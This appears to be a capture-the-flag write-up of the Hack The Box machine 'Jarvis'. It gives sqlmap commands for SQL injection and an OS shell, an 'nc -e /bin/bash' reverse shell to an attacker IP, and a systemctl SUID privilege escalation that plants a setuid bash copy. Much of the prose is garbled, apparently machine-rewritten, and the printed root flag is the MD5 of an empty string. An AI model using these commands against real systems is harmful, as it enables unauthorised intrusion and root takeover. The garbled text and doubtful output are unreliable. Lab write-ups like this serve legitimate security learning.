

The information provided in this site is for educational purposes regarding pentesting. The author of the site will not be held any responsibility for any misuse of the information from this site.
Introduction
Jarvis is a Norman French surname (last name) linked to Saint Gervasius. Its Latin meaning is “He who is skilled with a spear.”
Jarvis was a basic and fun box. I’ll begin by finding an SQLi in one of the site pages and get a fundamental shell utilizing sqlmap and afterwards sidestep a channel on a sudo record to get to the client banner. To get to the root, I’ll misuse a suid paired to acquire root shell
Enumeration: NMAP
The primary activity is to figure out what services are running on the objective IP address by executing Nmap against 10.10.10.143 IP.
Akuma@kali:~$ nmap -T4 -A -O -v -p - 10.10.10.143
The Nmap scan reveals 3 running services:
-SSH on port 22,
-Apache 2.4.25 on port 80 and 64999
Dirbuster
We use the tool “Dirbuster” to scan the webserver to enumerate different files and folders. I was able to find the PHPMyAdmin version which is v4.8.0 that is installed under http://10.10.10.143/phpmyadmin, which is exploitable via Local File.
The port 64999 always shows: so, its a rabbit hole
SqlMap
Reading the HTML or navigating through the page you will eventually find a URL like this
Attempting SQL injection manually through the URL bar didn’t help. In this instance, so I have used sqlmap to do this task.
After a few trials of play with that parameter, I could found that it is vulnerable to SQL Injection.
sqlmap -u http://10.10.10.143:80/room.php?cod=1 — random-agent — level 1 — risk 1 — hostname — current-user — users — passwords — batch
and by this, I was able to get the credentials
the sqlmap has successfully found the password which can be used to log in the PHPmyadmin page.
Now using sqlmap we can get a shell to Jarvis to do that I have used below command
sqlmap -u http://10.10.10.143:80 — crawl=3 — random-agent — level1 — risk 1 — os-shell — batch
User.txt
We still can’t read the flag but we can execute commands inside the Host we can upload a PHP reverse shell and execute.
I have downloaded pentest monkey PHP reverse shell on the host:
Accessing this shell opens a real shell to the system which is www-data now to escalate the privileges on the system I have used PEASS (Privilege Escalation Awesome Scripts SUITE)
It is possible to execute this script as pepper.
Executing it, you will find that there is an option to ping an IP address:
To get a reverse connection I have used the below script:
script: echo “nc -e /bin/bash 10.10.14.13 5566” > rev2.sh
And now it can be called from the script created earlier:
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

owning user: as pepper, I was able to read the user.txt file: 2afa36c4f05b37b34259c93551f5c44f (flag)
Root.txt
Executing linpe as pepper I have easily found the root flag by privileges exploiting the SUID bit of systemctl.
To exploit it you have to create a new .service file:
pepper@jarvis:~$ cat /home/pepper/suidpe.service
This service file will execute a script whenever it is started
pepper@jarvis:~$ cat /home/pepper/pe.sh
cp /bin/bash /home/pepper/b; chmod +s /home/pepper/b
Finally create and execute the new service :
pepper@jarvis:~$ systemctl link /home/pepper/suidpe.service
pepper@jarvis:~$ systemctl enable — now
/home/pepper/suidpe.service
pepper@jarvis:~$ systemctl start suidpe.service
This will create a file /home/pepper/b (a copy of /bin/bash with the SUID set
upon executing it we get the root, and we can easly read the flag:
pepper@jarvis:~$ /home/pepper/b -p
b-4.4# cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271(the root flag)